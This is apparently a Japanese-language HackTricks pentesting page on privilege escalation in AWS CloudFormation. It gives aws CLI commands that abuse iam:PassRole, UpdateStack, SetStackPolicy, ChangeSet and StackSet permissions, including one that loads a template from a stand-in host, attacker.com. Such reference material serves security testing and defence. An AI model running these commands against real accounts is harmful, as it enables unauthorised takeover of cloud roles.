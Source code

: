 # AWS - Cloudformation Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## cloudformation

Cloudformationに関する詳細情報は、以下を確認してください：

{{#ref}}
../../aws-services/aws-cloudformation-and-codestar-enum.md
{{#endref}}

### `iam:PassRole`, `cloudformation:CreateStack`

これらの権限を持つ攻撃者は、**指定されたロールの権限の下でアクションを実行するために、サーバーにホストされたカスタムテンプレートを使用して** **CloudFormationスタック**を作成することにより、**権限を昇格させることができます：**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
以下のページには、追加の権限 **`cloudformation:DescribeStacks`** を持つ **エクスプロイト例** があります：

{{#ref}}
iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md
{{#endref}}

**潜在的な影響：** 指定されたcloudformationサービスロールへの権限昇格。

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

この場合、**既存のcloudformationスタックを悪用**してそれを更新し、前のシナリオのように権限を昇格させることができます：
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
`cloudformation:SetStackPolicy` 権限を使用して、**自分に `UpdateStack` 権限を与え**、攻撃を実行できます。

**潜在的な影響:** 指定された cloudformation サービスロールへの権限昇格。

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

この権限を持っているが、**`iam:PassRole` がない場合**でも、**使用されているスタックを更新**し、**既に添付されている IAM ロールを悪用**することができます。前のセクションでのエクスプロイトの例を確認してください（更新時にロールを指定しないでください）。

`cloudformation:SetStackPolicy` 権限を使用して、**自分に `UpdateStack` 権限を与え**、攻撃を実行できます。

**潜在的な影響:** 既に添付されている cloudformation サービスロールへの権限昇格。

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

ロールを**渡す権限**と**ChangeSet を作成および実行する権限**を持つ攻撃者は、**新しい cloudformation スタックを作成/更新し、cloudformation サービスロールを悪用**することができます。これは CreateStack または UpdateStack と同様です。

以下のエクスプロイトは、**ChangeSet 権限を使用してスタックを作成する**[ **CreateStack のバリエーション**](./#iam-passrole-cloudformation-createstack)です。
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
`cloudformation:SetStackPolicy` 権限を使用して、**スタックに対して `ChangeSet` 権限を付与**し、攻撃を実行できます。

**潜在的な影響:** cloudformation サービスロールへの権限昇格。

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

これは前の方法と似ていますが、**IAM ロール**を渡さずに行うため、**既にアタッチされているものを悪用**することができます。パラメータを変更するだけです：
```
--change-set-type UPDATE
```
**潜在的な影響:** すでにアタッチされているcloudformationサービスロールへの権限昇格。

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

攻撃者はこれらの権限を悪用して、任意のcloudformationロールを悪用するためにStackSetsを作成/更新することができます。

**潜在的な影響:** cloudformationサービスロールへの権限昇格。

### `cloudformation:UpdateStackSet`

攻撃者はpassRole権限なしでこの権限を悪用して、アタッチされたcloudformationロールを悪用するためにStackSetsを更新することができます。

**潜在的な影響:** アタッチされたcloudformationロールへの権限昇格。

## 参考文献

- [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{{#include ../../../../banners/hacktricks-training.md}}
